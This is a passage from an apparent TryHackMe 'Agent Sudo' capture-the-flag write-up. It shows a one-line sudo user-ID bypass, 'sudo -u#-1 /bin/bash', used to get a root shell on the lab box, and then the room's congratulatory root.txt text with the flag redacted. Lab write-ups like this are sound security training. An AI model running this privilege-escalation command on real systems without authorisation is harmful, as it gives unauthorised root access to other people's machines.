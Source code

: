 Let's use the exploit.
```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# 
```

Root.txt:
```bash
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
REDACTED

By,
DesKel a.k.a Agent R
```